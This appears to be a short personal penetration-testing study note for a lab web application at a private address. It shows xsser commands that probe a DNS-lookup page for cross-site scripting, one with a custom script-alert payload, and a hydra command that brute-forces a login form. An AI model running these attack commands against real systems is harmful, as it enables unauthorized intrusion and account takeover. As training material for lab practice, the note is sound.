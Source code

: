 	
Using xsser for crosssite scripting
```
xsser --url "http://10.10.10.10/index.php?page=dns-lookup.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS"
```
This "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS" was gotten from burpsuite, more like the payload. So, the payload determines how it is constructed

To run a custom payload
```
xsser --url "http://10.10.10.10/index.php?page=dns-lookup.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS" --Fp "<script>alert(1)</script>"
```


>You can just test this manually lool

>Check login pages for xss also


Using hydra to bruteforce login pages
```
hydra -L users.txt -P pass.txt http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```
All these were gotten from the source code of the webpage or you can just capture the login request on burp then copy it. I'll still prefer using burp intruder lool

